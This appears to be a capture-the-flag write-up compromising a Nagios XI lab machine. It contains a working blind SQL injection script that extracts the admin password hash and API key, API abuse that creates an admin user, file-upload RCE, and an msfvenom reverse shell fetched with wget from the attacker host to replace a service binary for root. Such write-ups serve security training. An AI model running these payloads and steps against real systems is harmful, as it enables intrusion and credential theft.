

*Nmap scan*:

```shell
$ cat nmap_allports.txt         
# Nmap 7.94SVN scan initiated Thu Feb 22 11:08:39 2024 as: nmap -p- -v -o nmap_allports.txt 10.10.11.248
Nmap scan report for 10.10.11.248
Host is up (0.038s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
389/tcp  open  ldap
443/tcp  open  https
5667/tcp open  unknown
```

```shell
$ cat nmap_servicesversions.txt 
# Nmap 7.94SVN scan initiated Thu Feb 22 11:10:09 2024 as: nmap -p22,80,389,443,5667, -sC -sV -v -o nmap_servicesversions.txt 10.10.11.248
Nmap scan report for 10.10.11.248
Host is up (0.038s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
|_  256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
80/tcp   open  http       Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.56 ((Debian))
|_http-title: Nagios XI
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Issuer: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-11-11T21:46:55
| Not valid after:  2297-08-25T21:46:55
| MD5:   b36a:5560:7a5f:047d:9838:6450:4d67:cfe0
|_SHA-1: 6109:3844:8c36:b08b:0ae8:a132:971c:8e89:cfac:2b5b
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.56 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
5667/tcp open  tcpwrapped
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The webapp on port 80 does a redirect to "nagios.monitored.htb" domain; it is added to the hosts file.


Nagios XI is found. Searching for recent vulnerabilities regarding that product leads to the following URL: [https://research.nccgroup.com/2023/12/13/technical-advisory-multiple-vulnerabilities-in-nagios-xi/](https://research.nccgroup.com/2023/12/13/technical-advisory-multiple-vulnerabilities-in-nagios-xi/). There are many vulnerabilities in the article but the version of "Nagios XI" is not known.

Meanwhile, the UDP scan brought very interesting information.

```shell
$ cat nmap_udpbase.txt         
# Nmap 7.94SVN scan initiated Thu Feb 22 11:11:26 2024 as: nmap -sU -v -o nmap_udpbase.txt 10.10.11.248
Increasing send delay for 10.10.11.248 from 400 to 800 due to 11 out of 11 dropped probes since last increase.
Nmap scan report for 10.10.11.248
Host is up (0.037s latency).
Scanned at 2024-02-22 11:11:26 CET for 1087s
Not shown: 996 closed udp ports (port-unreach)
PORT    STATE         SERVICE
68/udp  open|filtered dhcpc
123/udp open          ntp
161/udp open          snmp
162/udp open|filtered snmptrap
```

UDP port 161 is open, which could lead to getting a lot of information about the system. Let's delve deeper into the situation. Thanks to onesixtyone, it was discovered that the community string used is "public", one of the defaults.

```shell
$ onesixtyone -c /usr/share/wordlists/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt $IP
Scanning 1 hosts, 120 communities
10.10.11.248 [public] Linux monitored 5.10.0-27-amd64 #1 SMP Debian 5.10.205-2 (2023-12-31) x86_64
10.10.11.248 [public] Linux monitored 5.10.0-27-amd64 #1 SMP Debian 5.10.205-2 (2023-12-31) x86_64
```

Now "snmpbulkwalk" is used to locate any interesting information.

```shell
$ snmpbulkwalk -c public -v2c 10.10.11.248 . > files/snmpbulkwalk.txt
```

It goes on to analyze the dump.


Among the running processes, from cmdline, we identify the execution of the script "/opt/scripts/check_host.sh" with user "svc" and password "XjH7VCehowpR1xZB".


These credentials allow neither SSH access nor LDAP server access nor pass the login in Nagios XI nor in "/nagiosxi/terminal/" endpoint. 

I'm stuck. I take a look at the forum: "Try to find out the hidden endpoint then you'll able to use the user svc".

```shell
$ gobuster dir -u $URL -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://nagios.monitored.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 286]
/.hta                 (Status: 403) [Size: 286]
/.htpasswd            (Status: 403) [Size: 286]
/cgi-bin/             (Status: 403) [Size: 286]
/index.php            (Status: 200) [Size: 3245]
/javascript           (Status: 301) [Size: 335] [--> https://nagios.monitored.htb/javascript/]
/nagios               (Status: 401) [Size: 468]
/server-status        (Status: 403) [Size: 286]
```

"401 Unauthorized" regarding "/nagios" indicates a failed authentication. This may be a basic auth.


The credentials of svc are tried.


Login works. "NagiosCore 4.4.13" detected. There is nothing interesting in the "Nagios Core" webapp. Let's take a look at the forum again. They recommend delving into the "/nagiosxi/api" endpoint.

```shell
$ gobuster dir -u $URL -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -k -b 403,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://nagios.monitored.htb/nagiosxi/api/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/includes             (Status: 301) [Size: 346] [--> https://nagios.monitored.htb/nagiosxi/api/includes/]
/v1                   (Status: 301) [Size: 340] [--> https://nagios.monitored.htb/nagiosxi/api/v1/]
[...]
```

"/nagiosxi/api/v1/" is identified. One still goes deep.

```shell
$ wfuzz -u $URL/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt --hc 403,404 --hw 4
[...]
000000611:   200        1 L      3 W        34 Ch       "license"                                                                                                                                                                   
000004604:   200        1 L      7 W        53 Ch       "authenticate"
```

"/nagiosxi/api/v1/authenticate" is found and it sounds interesting. It looks like an endpoint to be able to authenticate.




One tries to authenticate by providing "svc" credentials.


The login seems to work and the API returns an "auth_token". How can it be used? From [https://support.nagios.com/forum/viewtopic.php?p=331556](https://support.nagios.com/forum/viewtopic.php?p=331556), it was realized that it is possible to provide the value of "auth_token" in query string to access privileged information. Let's try. It works.


Let us now try the following URL (passing the token in query string): "/nagiosxi/index.php?token=<TOKEN_VALUE>".


Great. Login is bypassed. The important thing to note is that after bypassing the login, the application sets the session cookie "nagiosxi" which it uses to identify us as the "svc" user.

"Nagios XI 5.11.0" detected. This version has numerous CVEs, but we do not have an administrator user. Among several vulnerabilities, one appears to involve a SQLi, as reported in this URL: [https://outpost24.com/blog/nagios-xi-vulnerabilities/](https://outpost24.com/blog/nagios-xi-vulnerabilities/).

SQLi confirmed.


I wrote a small Python script to extract username and password of the users in the table "xi_users".

```python
import requests, string, time,urllib3
urllib3.disable_warnings()

alphabet = string.ascii_lowercase+string.digits+string.ascii_uppercase+string.digits+string.punctuation+string.whitespace
#alphabet = string.printable

host = "nagios.monitored.htb"
headers = {"Host": host}
cookies = {
    "nagiosxi": "v52nf23tcfdvs3qot8mvq1f9jb",
    }

def find_username():
    username_found = ""
    payload = ""
    found = True

    while found:
        print(f"[-] Current username: {username_found}")
        found = False
        for letter in alphabet:
            username_attempt = f"{username_found}{letter}"
            payload = f"3 OR IF (('{username_attempt}'=(SELECT SUBSTRING((SELECT username FROM xi_users LIMIT 1), 1, {len(username_attempt)}))), sleep(1),false)"            
            data = {
                "action": "acknowledge_banner_message",
                "id": payload,
            }
            start = time.time()
            _ = requests.post(
                f"https://{host}/nagiosxi/admin/banner_message-ajaxhelper.php",
                headers=headers,
                data=data,
                #proxies={"http": "http://127.0.0.1:8080"},
                cookies=cookies,
                verify=False
                )
            end = time.time()
            delay = end - start
            if delay < 1:
                continue
            else:
                print(f"[-] Anomaly request delay: {delay}")
                username_found = username_attempt
                print(f"[+] Found char: {letter}\n")
                found = True
                break

def find_password(username):
    admin_password = ""
    payload = ""
    found = True

    while found:
        print(f"[-] Current password: {admin_password}")
        found = False
        for letter in alphabet:
            password_attempt = f"{admin_password}{letter}"
            payload = f"3 OR IF (('{password_attempt}'=(SELECT SUBSTRING((SELECT password FROM xi_users WHERE username = '{username}'), 1, {len(password_attempt)}))), sleep(1),false)"
            data = {
                "action": "acknowledge_banner_message",
                "id": payload,
            }
            start = time.time()
            _ = requests.post(
                f"https://{host}/nagiosxi/admin/banner_message-ajaxhelper.php",
                headers=headers,
                data=data,
                #proxies={"http": "http://127.0.0.1:8080"},
                cookies=cookies,
                verify=False
                )
            end = time.time()
            delay = end - start
            if delay < 1:
                continue
            else:
                print(f"[-] Anomaly request delay: {delay}")
                admin_password = password_attempt
                print(f"[+] Found char: {letter}\n")
                found = True
                break

    print(f"[-] Alphabet lap completed without found char\n")
    print(f"[+] Found password: {admin_password}")

find_username()
print("--------------------------")
find_password("nagiosadmin")
```


Found "nagiosadmin" user with its password hash, i.e. "$2a$10$825c1eec29c150b118fe7unsfxq80cf7thwc0j0bg2qzinzwrux2c". After some time we conclude that the password hash of the user "nagiosadmin" does not seem crackable. From [https://support.nagios.com/forum/viewtopic.php?p=331564](https://support.nagios.com/forum/viewtopic.php?p=331564), we learn that in the folder "xi_users" there is another very interesting information namely "api_key", which represents the user's API token. The Python script is modified slightly so that the "api_key" of user "nagiosadmin" is extracted. The code snippet below shows the Python function that was needed to extract this information.

```python
def find_apitoken(username):
    API_token = ""
    payload = ""
    found = True

    while found:
        print(f"[-] Current API token: {API_token}")
        found = False
        for letter in alphabet:
            token_attempt = f"{API_token}{letter}"
            payload = f"3 OR IF (('{token_attempt}'=(SELECT SUBSTRING((SELECT api_key FROM xi_users WHERE username = '{username}'), 1, {len(token_attempt)}))), sleep(2),false)"
            data = {
                "action": "acknowledge_banner_message",
                "id": payload,
            }
            start = time.time()
            _ = requests.post(
                f"https://{host}/nagiosxi/admin/banner_message-ajaxhelper.php?token=8f78189a17cb33a12adf5b0165937d61546ba877",
                headers=headers,
                data=data,
                #proxies={"http": "http://127.0.0.1:8080"},
                cookies=cookies,
                verify=False
                )
            end = time.time()
            delay = end - start
            if delay < 2:
                continue
            else:
                print(f"[-] Anomaly request delay: {delay}")
                API_token = token_attempt
                print(f"[+] Found char: {letter}\n")
                found = True
                break

    print(f"[-] Alphabet lap completed without found char\n")
    print(f"[+] Found API token: {API_token}")

find_apitoken("nagiosadmin")
```

The script is executed.


As can be seen above, the API token of the user "nagiosadmin" is "iudgphd9pekiee9mkj7ggpd89q3yndctnperqoms2pq7qirbjeomfvg6eut9chll". All that remains is to see if authentication with such a token works.


Great! It works. From [https://www.exploit-db.com/exploits/44560](https://www.exploit-db.com/exploits/44560) we find one possible use of the nagiosadmin user API key: the creation of a new admin user. NagiosXI APIs are used.

```shell
$ curl -POST -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=iudgphd9pekiee9mkj7ggpd89q3yndctnperqoms2pq7qirbjeomfvg6eut9chll&pretty=1" -d "username=pablo&password=pablo&name=Pablo&email=pablo@monitored.htb&auth_level=admin&force_pw_change=0"
{
    "success": "User account pablo was added successfully!",
    "user_id": 6
}
```


New administrator user created. It is logged in with such a user.


With an administrator type account and since the Nagios XI version is vulnerable, as reported in [https://research.nccgroup.com/2023/12/13/technical-advisory-multiple-vulnerabilities-in-nagios-xi/](https://research.nccgroup.com/2023/12/13/technical-advisory-multiple-vulnerabilities-in-nagios-xi/), it is possible to perform remote code execution using CVE-2023-47400:
- page [https://nagios.monitored.htb/nagiosxi/includes/components/custom-includes/manage.php](https://nagios.monitored.htb/nagiosxi/includes/components/custom-includes/manage.php) is required
- upload a valid image named “test.jpg”
- use the rename feature of Custom Includes to rename the image to “.htaccess” (which has the effect of overwriting the existing `.htaccess` file)
- rename the file to “test.jpg” again, resulting in there being no `.htaccess` file present
- upload a file named “exploit.jpg.php” with the following contents


An optional step at this point is to abuse the site’s rename functionality to rename ‘exploit.jpg.php’ to ‘exploit.php’, and then access the uploaded file at [http://nagios.monitored.htb/nagiosxi/includes/components/custom-includes/images/exploit.php](http://nagios.monitored.htb/nagiosxi/includes/components/custom-includes/images/exploit.php). Let's begin the exploitation phase.


RCE confirmed. It's time to get a shell.


```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 4444
        inet 10.10.14.9  netmask 255.255.254.0  destination 10.10.14.9
        inet6 fe80::2726:54f4:9a38:1e72  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1007  prefixlen 64  scopeid 0x0<global>
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.248] 54042
<i/html/includes/components/custom-includes/images$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),121(Debian-snmp),1001(nagios),1002(nagcmd)
```

I am IN. User "www-data", member of the "nagios" group, can read the user flag.

```shell
www-data@monitored:/usr/local/nagiosxi/html$ ls -l /home
total 8
drwxr-xr-x 4 nagios nagios 4096 Feb 24 06:04 nagios
drwxr-xr-x 3 svc    svc    4096 Nov 11 10:55 svc
www-data@monitored:/usr/local/nagiosxi/html$ ls -l /home/nagios
total 8
-rw-r--r-- 1 nagios nagios 131 Feb 24 06:04 cookie.txt
-rw-r----- 1 root   nagios  33 Feb 24 05:58 user.txt
www-data@monitored:/usr/local/nagiosxi/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),121(Debian-snmp),1001(nagios),1002(nagcmd)
```

***user.txt***: 84c9c0510df2a8e29f23feb4227074eb


It's time to privesc. The "sudo -l" command detects several surprises.

```shell
www-data@monitored:/tmp$ sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/snmptt restart
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/messages
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/httpd/error_log
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/mysqld.log
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/repair_databases.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
```

It is also performed linpeas.


```shell
www-data@monitored:/tmp$ find / -type f -perm /u=s,g=s -exec ls -l {} \; 2>/dev/null
-rwsrwxr-x 1 root nagios 244616 Nov  9 10:41 /usr/local/nagios/libexec/check_icmp
-rwsrwxr-x 1 root nagios 203320 Nov  9 10:41 /usr/local/nagios/libexec/check_dhcp
-rwxr-sr-x 1 root shadow 38912 Aug 26  2021 /usr/sbin/unix_chkpwd
-rwsr-xr-x 1 root root 1360680 Jan  1 12:00 /usr/sbin/exim4
-rwsr-xr-x 1 root root 481608 Dec 21 11:09 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 51336 Jun  6  2023 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwxr-sr-x 1 root crontab 43568 Feb 22  2021 /usr/bin/crontab
-rwxr-sr-x 1 root root 15208 Nov 19  2020 /usr/bin/dotlock.mailutils
-rwsr-xr-x 1 root root 52880 Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 55528 Jan 20  2022 /usr/bin/mount
-rwxr-sr-x 1 root tty 22760 Jan 20  2022 /usr/bin/write.ul
-rwsr-xr-x 1 root root 71912 Jan 20  2022 /usr/bin/su
-rwsr-xr-x 1 root root 182600 Jan 14  2023 /usr/bin/sudo
-rwxr-sr-x 1 root shadow 80256 Feb  7  2020 /usr/bin/chage
-rwxr-sr-x 1 root mail 14648 Sep  5  2019 /usr/bin/mlock
-rwsr-xr-x 1 root root 58416 Feb  7  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root 44632 Feb  7  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root 34896 Feb 26  2021 /usr/bin/fusermount
-rwxr-sr-x 1 root ssh 354440 Dec 21 11:09 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 35040 Jan 20  2022 /usr/bin/umount
-rwsr-xr-x 1 root root 63960 Feb  7  2020 /usr/bin/passwd
-rwxr-sr-x 1 root shadow 31160 Feb  7  2020 /usr/bin/expiry
-rwxr-sr-x 1 root mail 23040 Feb  4  2021 /usr/bin/dotlockfile
-rwxr-sr-x 1 root tty 35048 Jan 20  2022 /usr/bin/wall
-rwsr-xr-x 1 root root 88304 Feb  7  2020 /usr/bin/gpasswd
```

As you can see from above you have write permission on binary with SUID set owned by the root user. This is the vector of privesc. The problem is that the content of the two binaries is not editable since changing it would cause the SUID bit to be lost, as explained here: [https://unix.stackexchange.com/questions/284947/why-suid-bit-is-unset-after-file-modification](https://unix.stackexchange.com/questions/284947/why-suid-bit-is-unset-after-file-modification). Linpeas points out another interesting thing.


This is very intriguing in that the "Nagios" service uses the "/usr/local/nagios/bin/nagios" binary, of which the current user has write permission. As shown before with the "sudo -l" command, the current user can run with "sudo" without password the script "/usr/local/nagiosxi/scripts/manage_services.sh". The latter is also responsible for interacting with the Nagios service.

One possible method of making privesc is shown in the screen below.


To summarize, you could replace the "/usr/local/nagios/bin/nagios" binary with one that allows you to get a reverse shell and then you restart the Nagios service via the "manage_service.sh" script.

First you generate a reverse shell with msfvenom.

```shell
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: shell
```

The executable file is transferred to the target machine.

```shell
www-data@monitored:/tmp$ wget 10.10.14.7/shell
wget 10.10.14.7/shell
--2024-02-26 04:17:43--  http://10.10.14.7/shell
Connecting to 10.10.14.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 194 [application/octet-stream]
Saving to: ‘shell’

shell               100%[===================>]     194  --.-KB/s    in 0s      

2024-02-26 04:17:43 (23.8 MB/s) - ‘shell’ saved [194/194]
```

Nagios service is stopped.

```shell
www-data@monitored:/tmp$ sudo /usr/local/nagiosxi/scripts/manage_services.sh status nagios
● nagios.service - Nagios Core 4.4.13
     Loaded: loaded (/lib/systemd/system/nagios.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2024-02-26 03:48:06 EST; 34min ago
       Docs: https://www.nagios.org/documentation
    Process: 26069 ExecStartPre=/usr/local/nagios/bin/nagios -v /usr/local/nagios/etc/nagios.cfg (code=exited, status=0/SUCCESS)
    Process: 26071 ExecStart=/usr/local/nagios/bin/nagios -d /usr/local/nagios/etc/nagios.cfg (code=exited, status=0/SUCCESS)
   Main PID: 26072 (nagios)
      Tasks: 6 (limit: 4661)
     Memory: 27.5M
        CPU: 3.637s
     CGroup: /system.slice/nagios.service
             ├─26072 /usr/local/nagios/bin/nagios -d /usr/local/nagios/etc/nagi…
             ├─26073 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/va…
             ├─26074 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/va…
             ├─26075 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/va…
             ├─26076 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/va…
             └─26104 /usr/local/nagios/bin/nagios -d /usr/local/nagios/etc/nagi…
www-data@monitored:/tmp$ sudo /usr/local/nagiosxi/scripts/manage_services.sh stop nagios
<cal/nagiosxi/scripts/manage_services.sh stop nagios
www-data@monitored:/tmp$ sudo /usr/local/nagiosxi/scripts/manage_services.sh status nagios
● nagios.service - Nagios Core 4.4.13
     Loaded: loaded (/lib/systemd/system/nagios.service; enabled; vendor preset: enabled)
     Active: inactive (dead) since Mon 2024-02-26 04:22:56 EST; 3s ago
       Docs: https://www.nagios.org/documentation
    Process: 26069 ExecStartPre=/usr/local/nagios/bin/nagios -v /usr/local/nagios/etc/nagios.cfg (code=exited, status=0/SUCCESS)
    Process: 26071 ExecStart=/usr/local/nagios/bin/nagios -d /usr/local/nagios/etc/nagios.cfg (code=exited, status=0/SUCCESS)
    Process: 28251 ExecStop=/usr/bin/kill -s TERM ${MAINPID} (code=exited, status=0/SUCCESS)
    Process: 28252 ExecStopPost=/usr/bin/rm -f /usr/local/nagios/var/rw/nagios.cmd (code=exited, status=0/SUCCESS)
   Main PID: 26072 (code=exited, status=0/SUCCESS)
        CPU: 3.660s
```

The "/usr/local/nagios/bin/nagios" binary is replaced with the reverse shell.

```shell
www-data@monitored:/tmp$ ls -l /usr/local/nagios/bin/nagios
-rwxrwxr-- 1 nagios nagios 717648 Nov  9 10:40 /usr/local/nagios/bin/nagios
www-data@monitored:/tmp$ cat shell > /usr/local/nagios/bin/nagios
www-data@monitored:/tmp$ ls -l /usr/local/nagios/bin/nagios
-rwxrwxr-- 1 nagios nagios 194 Feb 26 04:23 /usr/local/nagios/bin/nagios
```

A netcat listener on port 4444 is activated and the Nagios service is started again.

```shell
www-data@monitored:/tmp$ sudo /usr/local/nagiosxi/scripts/manage_services.sh start nagios
```

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 4444
        inet 10.10.14.7  netmask 255.255.254.0  destination 10.10.14.7
        inet6 fe80::309:a543:686d:3a01  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1005  prefixlen 64  scopeid 0x0<global>
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.248] 40098
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@monitored:/# whoami
root
```

Simply root.

***root.txt***: f3808ad5382a4ba2a89a0e9e738d89e7


